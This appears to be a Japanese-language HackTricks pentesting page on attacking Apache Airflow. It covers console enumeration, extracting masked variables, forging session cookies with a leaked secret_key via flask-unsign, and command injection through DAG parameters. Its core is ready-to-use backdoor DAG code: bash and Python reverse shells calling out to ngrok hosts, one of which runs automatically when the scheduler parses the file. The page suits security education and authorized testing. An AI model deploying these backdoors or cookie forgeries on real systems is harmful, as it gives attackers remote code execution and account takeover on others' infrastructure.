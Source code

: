 # Apache Airflow Security

{{#include ../../banners/hacktricks-training.md}}

### 基本情報

[**Apache Airflow**](https://airflow.apache.org) は、**データパイプラインやワークフローのオーケストレーションとスケジューリング**のためのプラットフォームとして機能します。データパイプラインの文脈における「オーケストレーション」という用語は、さまざまなソースからの複雑なデータワークフローを整理、調整、管理するプロセスを指します。これらのオーケストレーションされたデータパイプラインの主な目的は、処理された消費可能なデータセットを提供することです。これらのデータセットは、ビジネスインテリジェンスツール、データサイエンス、機械学習モデルなど、さまざまなアプリケーションで広く利用されており、ビッグデータアプリケーションの機能にとって基盤となっています。

基本的に、Apache Airflowは、**何かが起こったときにコードの実行をスケジュールすることを可能にします**（イベント、cron）。

### ローカルラボ

#### Docker-Compose

[**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) からの**docker-compose設定ファイルを使用して**、完全なapache airflow docker環境を起動できます。（MacOSを使用している場合は、docker VMに少なくとも6GBのRAMを割り当てることを確認してください）。

#### Minikube

**apache airflowを実行する**簡単な方法の一つは、**minikubeで実行することです**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Airflowの設定

Airflowはその設定に**機密情報**を保存する可能性があり、または弱い設定が存在することがあります：

{{#ref}}
airflow-configuration.md
{{#endref}}

### Airflow RBAC

Airflowを攻撃する前に、**権限の仕組み**を理解する必要があります：

{{#ref}}
airflow-rbac.md
{{#endref}}

### 攻撃

#### ウェブコンソールの列挙

**ウェブコンソールにアクセス**できる場合、以下の情報の一部またはすべてにアクセスできる可能性があります：

- **変数**（カスタムの機密情報がここに保存される可能性があります）
- **接続**（カスタムの機密情報がここに保存される可能性があります）
- `http://<airflow>/connection/list/`でアクセス
- [**設定**](./#airflow-configuration)（**`secret_key`**やパスワードなどの機密情報がここに保存される可能性があります）
- **ユーザーと役割のリスト**
- **各DAGのコード**（興味深い情報が含まれている可能性があります）

#### 変数の値を取得

変数はAirflowに保存され、**DAG**がその値に**アクセス**できるようになります。他のプラットフォームの秘密に似ています。**十分な権限**があれば、`http://<airflow>/variable/list/`のGUIでアクセスできます。\
AirflowはデフォルトでGUIに変数の値を表示しますが、[**これ**](https://marclamberti.com/blog/variables-with-apache-airflow/)によると、**値**が**アスタリスク**として表示される**変数のリスト**を設定することが可能です。

![](<../../images/image (164).png>)

しかし、これらの**値**は**CLI**（DBアクセスが必要）、**任意のDAG**の実行、**API**を介して変数エンドポイントにアクセスすること（APIは有効化する必要があります）、さらには**GUI自体**からも**取得**できます！\
GUIからこれらの値にアクセスするには、アクセスしたい**変数を選択**し、**アクション -> エクスポート**をクリックします。\
別の方法は、**検索フィルタリング**を使用して**隠された値**に対して**ブルートフォース**を行い、それを取得することです：

![](<../../images/image (152).png>)

#### 権限昇格

**`expose_config`**設定が**True**に設定されている場合、**ユーザー役割**以上の権限を持つ者は**ウェブで設定を読み取る**ことができます。この設定には**`secret_key`**が含まれており、これに有効なユーザーは**他のユーザーアカウントを偽装するための独自の署名付きクッキーを作成**できます。
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG Backdoor (RCE in Airflow worker)

もし**DAGが保存されている場所**に**書き込みアクセス**がある場合、**リバースシェルを送信する**ものを**作成する**ことができます。\
このリバースシェルは**airflow worker container**内で実行されることに注意してください：
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG バックドア (Airflow スケジューラにおける RCE)

コードのルートで何かを**実行するように設定**すると、この記事を書いている時点で、それは**スケジューラによって実行されます**。DAG のフォルダに配置してから数秒後に実行されます。
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### DAGの作成

もし**DAGクラスター内のマシンを侵害することができれば**、`dags/`フォルダーに新しい**DAGスクリプト**を作成でき、それが**DAGクラスター内の他のマシンに複製されます**。

#### DAGコードインジェクション

GUIからDAGを実行するときに**引数を渡す**ことができます。\
したがって、DAGが適切にコーディングされていない場合、**コマンドインジェクションに対して脆弱である可能性があります。**\
これがこのCVEで起こったことです: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

**DAG内のコマンドインジェクションを探し始めるために知っておくべきことは**、**パラメータ**が**コード`dag_run.conf.get("param_name")`で**アクセスされるということです。

さらに、同じ脆弱性が**変数**にも発生する可能性があります（十分な権限があれば、GUIで**変数の値を制御できる**ことに注意してください）。変数は**次のようにアクセスされます**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
例えば、bashコマンド内で使用される場合、コマンドインジェクションを実行することができます。

{{#include ../../banners/hacktricks-training.md}}
